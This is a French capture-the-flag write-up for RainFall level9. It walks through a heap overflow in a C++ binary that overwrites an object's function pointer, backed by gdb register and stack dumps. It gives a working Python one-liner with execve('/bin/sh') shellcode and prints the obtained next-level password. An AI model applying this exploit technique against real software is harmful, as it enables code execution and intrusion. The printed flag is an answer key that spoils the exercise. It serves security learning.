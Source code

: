 Dans ce niveau, on a ce qui s'apparente a du C++ compile.

On voit qu'il y a une classe `N` qui a une methode `operator+`, un pointeur sur fonction, un nombre et une chaine de charactere
A priori en terme de structure on a quelque chose comme cela:
```c
struct {
    void (*f)(N*, N*);  // 4 bytes
    char str[100];      // 4 bytes
    int nb;             // 4 bytes
} N;                    // 108 bytes
```

```bash
[----------------------------------registers-----------------------------------]
EAX: 0x2d2d2d2d ('----')
EBX: 0x804ec20 ("----")
ECX: 0x2d2d2d2d ('----')
EDX: 0x804ec24 --> 0x0
ESI: 0xffffd144 --> 0xffffd2b9 ("/mnt/c/Users/Remi/Downloads/Rainfall_execs/level9")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0xffffd088 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0
ESP: 0xffffd060 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:       push   ebp)
EIP: 0x8048682 (<main+142>:     mov    edx,DWORD PTR [eax])
EFLAGS: 0x10287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048677 <main+131>:        call   0x804870e <_ZN1N13setAnnotationEPc>
   0x804867c <main+136>:        mov    eax,DWORD PTR [esp+0x10]
   0x8048680 <main+140>:        mov    eax,DWORD PTR [eax]
=> 0x8048682 <main+142>:        mov    edx,DWORD PTR [eax]
   0x8048684 <main+144>:        mov    eax,DWORD PTR [esp+0x14]
   0x8048688 <main+148>:        mov    DWORD PTR [esp+0x4],eax
   0x804868c <main+152>:        mov    eax,DWORD PTR [esp+0x10]
   0x8048690 <main+156>:        mov    DWORD PTR [esp],eax
[------------------------------------stack-------------------------------------]
0000| 0xffffd060 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:      push   ebp)
0004| 0xffffd064 --> 0xffffd2eb ("aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz0000----")
0008| 0xffffd068 --> 0xf7fbf8e0 --> 0xf7b6dcc6 ("GLIBC_PRIVATE")
0012| 0xffffd06c --> 0x1
0016| 0xffffd070 --> 0x804ec20 ("----")
0020| 0xffffd074 --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:      push   ebp)
0024| 0xffffd078 --> 0x804ec20 ("----")
0028| 0xffffd07c --> 0x804ebb0 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:      push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08048682 in main ()
gdb-peda$
```

Avec une entree de 108 characteres, on voit que le programme crash lorsqu'il essaie de faire un `mov edx, DWORD PTR [eax]`
C'est du au fait que lorsqu'on copie les 108 characteres de `argv[1]`, on ecrase le pointeur sur fonction de la classe 2.  
Ainsi on peut ecrire du shellcode dans `argv[1]` qui sera ensuite copie dans le buffer de la classe 2.  
Et ensuite a la fin de la chaine on met l'addresse de notre shellcode pour que le pointeur sur fonction pointe dessus.  
Il faut noter une chose aussi, c'est que l'addresse a mettre dans `edx` est un pointeur vers l'addresse de la fonction a executer.  
Ainsi on mets au bout l'addresse du debut du buffer, et au debut du buffer on mets l'addresse du shellcode qui se trouve juste apres.
Quelque chose du genre:
```
buffer:   [ADDR_SHELLCODE] [SHELLCODE] [...PLACEHOLDER...] [ADDR_FN]
bytes:            4             28        (108 - 28 - 4)       4
```

```bash
level9@RainFall:~$ ./level9 $(python -c 'sc_addr = "\x10\xa0\x04\x08"; sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; print sc_addr + sc + "\x42"*(108-len(sc)-len(sc_addr)) + "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
